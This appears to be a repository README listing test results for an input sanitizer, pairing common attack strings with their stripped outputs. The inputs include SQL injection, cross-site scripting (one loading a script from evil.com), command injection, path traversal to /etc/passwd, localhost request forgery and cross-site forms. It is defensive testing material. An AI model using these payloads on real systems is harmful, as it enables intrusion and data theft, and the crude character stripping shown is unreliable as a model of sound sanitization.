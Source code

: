 # Test Results: Input Sanitization

This README contains test results for various input sanitization cases.

**Original Input:**
`' OR 1=1 --`
**Sanitized Input:**
`OR 11`

---

**Original Input:**
`' UNION SELECT null, username, password FROM users --`
**Sanitized Input:**
`UNION SELECT null username password FROM users`

---

**Original Input:**
`admin' --`
**Sanitized Input:**
`admin`

---

**Original Input:**
`1' AND 1=1 --`
**Sanitized Input:**
`1 AND 11`

---

**Original Input:**
`1' OR 'x' = 'x' --`
**Sanitized Input:**
`1 OR x  x`

---

**Original Input:**
`1' HAVING 1=1 --`
**Sanitized Input:**
`1 HAVING 11`

---

**Original Input:**
`<script>alert('XSS')</script>`
**Sanitized Input:**
`scriptalertXSSscript`

---

**Original Input:**
`<img src='x' onerror='alert(1)' />`
**Sanitized Input:**
`img srcx onerroralert1`

---

**Original Input:**
`<script>console.log('XSS')</script>`
**Sanitized Input:**
`scriptconsolelogXSSscript`

---

**Original Input:**
`<iframe src='malicious-site.com'></iframe>`
**Sanitized Input:**
`iframe srcmalicioussitecomiframe`

---

**Original Input:**
`<div onclick='alert(2)'>click me</div>`
**Sanitized Input:**
`div onclickalert2click mediv`

---

**Original Input:**
`<a href='javascript:alert(1)'>link</a>`
**Sanitized Input:**
`a hrefjavascriptalert1linka`

---

**Original Input:**
`<script src='http://evil.com/malicious.js'></script>`
**Sanitized Input:**
`script srchttpevilcommaliciousjsscript`

---

**Original Input:**
`1; DROP TABLE users;`
**Sanitized Input:**
`1 DROP TABLE users`

---

**Original Input:**
`echo 'Hacked' > /tmp/test.txt`
**Sanitized Input:**
`echo Hacked  tmptesttxt`

---

**Original Input:**
`ping -c 1 127.0.0.1`
**Sanitized Input:**
`ping c 1 127001`

---

**Original Input:**
`../../../../etc/passwd`
**Sanitized Input:**
`etcpasswd`

---

**Original Input:**
`../admin/../../etc/passwd`
**Sanitized Input:**
`adminetcpasswd`

---

**Original Input:**
`/etc/passwd`
**Sanitized Input:**
`etcpasswd`

---

**Original Input:**
`http://localhost:8080/admin`
**Sanitized Input:**
`httplocalhost8080admin`

---

**Original Input:**
`http://127.0.0.1/admin`
**Sanitized Input:**
`http127001admin`

---

**Original Input:**
`http://example.com/malicious`
**Sanitized Input:**
`httpexamplecommalicious`

---

**Original Input:**
`<img src='http://victim.com/delete?id=1' />`
**Sanitized Input:**
`img srchttpvictimcomdeleteid1`

---

**Original Input:**
`<form action='http://victim.com/delete' method='POST'><input type='hidden' name='id' value='1'></form>`
**Sanitized Input:**
`form actionhttpvictimcomdelete methodPOSTinput typehidden nameid value1form`

---

